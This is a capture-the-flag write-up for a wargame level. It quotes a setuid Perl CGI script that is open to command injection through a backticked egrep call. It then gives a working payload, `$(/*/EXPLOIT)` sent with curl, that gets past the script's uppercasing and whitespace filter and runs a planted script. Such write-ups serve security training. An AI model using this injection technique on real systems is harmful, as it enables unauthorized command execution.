 # Level12 Writeup
 
## Info
 
User `level12` has a setuid `flag12` perl script `level12.pl` in the root of their home directory.
 
`level12.pl`
``` perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";
 
sub t {
 $nn = $_[1];
 $xx = $_[0];
 $xx =~ tr/a-z/A-Z/;
 $xx =~ s/\s.*//;
 @output = `egrep "^$xx" /tmp/xd 2>&1`;
 foreach $line (@output) {
     ($f, $s) = split(/:/, $line);
     if($s =~ $nn) {
         return 1;
     }
 }
 return 0;
}
 
sub n {
 if($_[0] == 1) {
     print("..");
 } else {
     print(".");
 }   
}
 
n(t(param("x"), param("y")));
```
 
Using nmap we can confirm that there is indeed a port open on 4646.

However this isn't as easy as in level04, there are 2 caveats in executing shell scripts. `$xx =~ tr/a-z/A-Z/;` capitalizes our input and `$xx =~ s/\s.*//;` removes all content after a single whitespace. 

Meaning we need to create an exploit that has no whitespace and works with only capital letters.
 
## Victory
 
We can simply create a script with full capital letters like `EXPLOIT` and place it in a folder where all users have access, like within `/tmp/`. Remember to give the script executable permisions.
 
`EXPLOIT`
``` bash
#!/bin/bash

getflag > /tmp/flag
```
 
Then we navigate to the web server via a browser and simply pass `$(/*/EXPLOIT)` to param x. Example with curl -> `curl localhost:4646\?x=\$\(/*/EXPLOIT\)`
 
Simply cat the file created and voila, the flag.